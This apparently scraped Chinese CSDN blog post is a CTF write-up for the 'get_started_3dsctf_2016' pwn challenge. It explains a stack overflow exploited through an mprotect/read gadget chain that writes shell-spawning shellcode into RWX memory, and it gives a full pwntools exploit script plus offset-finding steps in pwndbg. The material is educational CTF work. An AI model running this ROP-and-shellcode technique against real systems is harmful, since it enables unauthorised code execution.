<!--yml
category: 未分类
date: 2022-04-26 14:50:53
-->

# get_started_3dsctf_2016 1_一路开花●-●的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41560595/article/details/114982378](https://blog.csdn.net/qq_41560595/article/details/114982378)

又是被暴击的一天。


### 查看文件权限


可以栈溢出，地址写死了。

### 查看源程序


还是个静态文件，首先想到可以使用Gadget。

### 分析

存在一个mprotect函数：

```
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot); 
```

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。
prot代表着 r-w-x。那么可读可写可执行就是7。

这道题参考一个博客的思路，把一块内存属性利用这个函数改成可读可写可执行，再把shellcode写进去，拿到权限。

**首先查看哪块内存地址较为合适：**

这几块区域中，第二个既是二进制文件范围，又是r-w权限，所以比较合适。
查看IDA中范围：


选择0x80EB000。

**构造payload**

由于mprotect需要三个参数，我们可以查找合适的gadget。

只要有三个寄存器就行，这里选择0x0804f460。

构造栈图：

最初会有两个步骤leave和ret，执行完这两个后，指针如下：

eip执行mprotect函数，而esp指向gadget。在mprotect最后会有ret，执行ret时esp内容弹到eip上，esp向下退一格：

此时，eip会执行这个gadget，esp会依据gadget内容把三个参数（0x80EB000,0x100,7）弹到对应的寄存器上。弹完3个寄存器后如下图：

但是gadget最后还有一个ret命令，使得esp内容弹到eip上，esp下降一格：

这时就要开始执行read函数了，下面的分析和刚才类似。。是把三个参数(0,0x80EB000，0x100)弹到寄存器上。read放在这里是让shellcode能够写入到内存区域0x80EB000中。
最后写完，就可以执行0x80EB000中的shellcode了。

### 题解代码

```
from pwn import *

p=remote("node3.buuoj.cn",28368)
elf=ELF("./get_started_3dsctf_2016")
mprotect=elf.symbols["mprotect"]
memaddr=0x80EB000
gadget=0x804f460
read=elf.symbols["read"]

payload1= b"A"*0x38+p32(mprotect)+p32(gadget)+p32(memaddr)+p32(0x100)+p32(0x7)
payload1+= p32(read)+p32(gadget)+p32(0)+p32(memaddr)+p32(0x100)+p32(memaddr)

p.sendline(payload1)
payload2=asm(shellcraft.sh(),arch='i386',os='linux')

p.sendline(payload2)

p.interactive() 
```

### 大功告成



参考博客：
[https://www.cnblogs.com/lyxf/p/12113401.html](https://www.cnblogs.com/lyxf/p/12113401.html) 写的确实很好。
[https://blog.csdn.net/roland_sun/article/details/33728955](https://blog.csdn.net/roland_sun/article/details/33728955)

2021/3/26 补：

在计算长度的时候，IDA也会出错，在计算v4位置时，就出错了：

把v4点进去，发现只有返回值r和三个参数，ebp的长度4已经包含进0x38了。

而正常的栈里都是包括ebp的，(用符号s表示)：

<mark>2021/3/31 补：</mark>

用gdb计算偏移：
我用的是pwndbg

先cyclic 200，生成一个长度为200的字符串。复制。
在gdb内：

**disass main**

注意到gets函数是在第+22的位置。下断点：
b *main+22，r运行。
ni不停回车回车。。。直到出现这么一句:

不要回车，直接把刚才的字符串粘进去。再不停回车。。。
记不清按了多少次。。出现

cyclic -l 0x6161616f，出现偏移：

得出答案。综上，gdb计算偏移有时太麻烦，比如这道题。还是直接从IDA看栈图更方便些。

